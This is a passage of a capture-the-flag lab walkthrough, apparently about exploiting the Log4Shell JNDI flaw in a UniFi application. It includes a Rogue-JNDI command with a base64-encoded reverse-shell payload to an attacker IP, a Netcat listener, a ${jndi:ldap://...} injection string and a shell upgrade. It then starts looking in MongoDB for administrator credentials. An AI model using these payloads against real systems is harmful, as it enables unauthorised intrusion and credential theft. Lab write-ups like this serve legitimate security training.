 Note: For this walkthrough we will be using port 4444 to receive the shell.\
After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of

the --command option and your tun0 IP address to the --hostname option.

For example:

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|
{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```

```
java -jar target/RogueJndi-1.1.jar --command "bash -c
{echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,-
d}|{bash,-i}" --hostname "10.10.14.33"
```

Now that the server is listening locally on port 389 , let's open another terminal and start a Netcat listener to capture the reverse shell.

nc -lvp 4444

Going back to our intercepted POST request, let's change the payload to ${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat} and click Send .

After sending the request, a connection to our rogue server is received and the following message is shown.

```
  Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
```

Once we receive the output from the Rogue server, a shell spawns on our Netcat listener and we can upgrade the terminal shell using the following command.

```
  script /dev/null -c bash
```

The above command will turn our shell into an interactive shell that will allow us to interact with the system more effectively.

From here we can navigate to /home/Michael/ and read the user flag.

Privilege Escalation

Privilege Escalation

The article states we can get access to the administrator panel of the UniFi application and possibly extract SSH secrets used between the appliances. First let's check if MongoDB is running on the target system, which might make it possible for us to extract credentials in order to login to the administrative panel.

```
  ps aux | grep mongo
```

We can see MongoDB is running on the target system on port 27117 .

Let's interact with the MongoDB service by making use of the mongo command line utility and attempting to extract the administrator password. A quick Google search using the keywords UniFi Default Database shows that the default database name for the UniFi application is ace .
